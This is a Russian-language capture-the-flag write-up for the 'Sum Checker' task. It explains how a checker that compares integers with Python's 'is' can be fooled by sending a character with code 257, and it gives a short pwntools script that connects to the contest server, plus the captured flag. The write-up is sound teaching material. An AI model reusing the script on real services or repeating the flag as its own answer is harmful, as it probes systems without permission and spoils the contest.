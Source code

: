 # Sum Checker
_Похоже, разработчик этого сервиса полагается на коммутативность для обеспечения безопасности..._

_nc sum-checker.tasks.2021.ctf.cs.msu.ru 20002_

[checker.py](checker.py)

### Solution
В файле checker.py наблюдаем сравнение пользовательского ввода (после преобразований) оператором is, чтобы получить флаг, нам нужно выполнение следующего условия:
```python
sum([ord(i) for i in our_input]) % 260 is sum([ord(i) for i in our_input[::-1]]) % 260 == False
```

Оператор is используют, чтобы удостовериться, что переменные указывают на один и тот же объект в памяти. Python указывает на один и тот же объект, если его значение не превышает один байт (2**8).
Таким образом, нам остаётся написать скрипт, который отправляет символ с кодом ∈ \[257-259].

[pwn1.py](pwn1.py)
```python
import pwn

c = pwn.connect('sum-checker.tasks.2021.ctf.cs.msu.ru', 20002)
c.recvuntil(':')
c.sendline(bytes(chr(257).encode()))
flag = c.recvuntil('}').decode()
print(flag)

`
Flag: MSKCTF{pr3d3f1n3d_c0n$t4nt$_pai8eege2a}
`
